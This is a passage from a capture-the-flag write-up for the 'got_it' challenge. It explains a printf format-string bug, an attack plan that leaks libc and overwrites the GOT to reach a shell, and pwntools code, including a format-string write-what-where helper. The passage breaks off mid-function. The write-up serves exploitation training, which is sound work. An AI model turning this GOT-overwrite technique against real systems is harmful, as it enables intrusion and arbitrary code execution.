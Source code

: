 Line 21 has a `printf` format-string vulnerability (remember `scanf` is really `printf` now).  And given the size of `local_118`, there's a lot of room for exploits.


## Exploit

### Attack Plan

1. First Pass: Get infinite free passes (`exit` -> `main`)
2. Second Pass: Leak libc address (unmolested `fgets`)
3. Third Pass: Update GOT, `printf` is now `system`
4. Final Pass: Get a shell, get the flag.


### Initial Setup

This is pretty long, so I'll break down into 3 parts (the patch, the functions, let's get ready).

```python
#!/usr/bin/python3

from pwn import *
import time, os, sys

if len(sys.argv) == 2 and sys.argv[1] == 'local':
    # patch out code that slows down local exploit dev
    binary = ELF('got_it')
    # remove sleep/alarm swap
    for i in range(0x4012a8,0x4012cc):
        binary.p8(i,0x90)
    # remove sleep
    for i in range(0x4012f1,0x4012f6):
        binary.p8(i,0x90)
    binary.save('got_it_patched')
    os.chmod('got_it_patched',0o755)

    p = process('./got_it_patched')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('pwn.hsctf.com', 5004)
    libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
```

`got_it` with its `alarm` and `sleep` functions will just slow down your exploit development.  The above, if `local` is passed as the first argument to `exploit.py`, will binary patch `got_it` as `got_it_patched` undoing the `alarm`/`sleep` swap as well as patching-out the 30 second `sleep` reducing how annoying this challenge is.

```python
# write-what-where 64 bit address x 16 bit words, format string
def www64x16fs(what,where,base,count):
    words = {}; qq = 0
    for i in range(count):
        v = (what >> (i*16)) & 0xFFFF
        words[where + i*2] = v
        if v == 0:
            qq += 1

    n=0; q=base+(2*count)-qq; fstring = b''
    for where, what in sorted(words.items(), key=lambda x: x[1]):
        if(what-n) > 0:
            fstring += b'%' + str(what-n).rjust(6,'0').encode() + b'x'
        fstring += b'%' + str(q).rjust(4,'0').encode() + b'$hn'
        n += (what-n)
        q += 1

```